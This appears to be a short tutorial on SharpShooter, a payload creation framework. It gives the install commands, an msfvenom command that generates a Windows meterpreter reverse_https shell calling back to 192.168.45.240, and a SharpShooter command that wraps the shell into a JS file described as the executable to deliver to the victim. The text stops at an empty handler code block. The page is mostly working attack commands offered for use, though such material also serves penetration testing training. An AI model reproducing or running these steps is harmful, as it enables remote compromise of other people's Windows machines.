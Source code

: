 ### What is SharpShooter.

SharpShooter is a payload creation framework for CSharp source code in several formats (HTA, JS, VBS among others).


#### Instalation.

The instalation requieres Python2 and it can be kind of tricky, we follow the following steps:

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2 get-pip.py
sudo python2 -m pip install --upgrade setuptools
sudo python2 -m pip install jsmin
cd /opt/
sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
cd SharpShooter/
sudo python2 -m pip install -r requirements.txt
```


#### Usage.

Now, to usage it, we create a msfvenom payload:

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.240 LPORT=4444 -f raw -o /var/www/html/shell.txt
```
And use SharpShooter

```
sudo python2 SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test   
```

This will develop a 'test.js' file which is in fact the executable to transport to the victim. The connection can be retrieved with a handler with msfconsole:

```
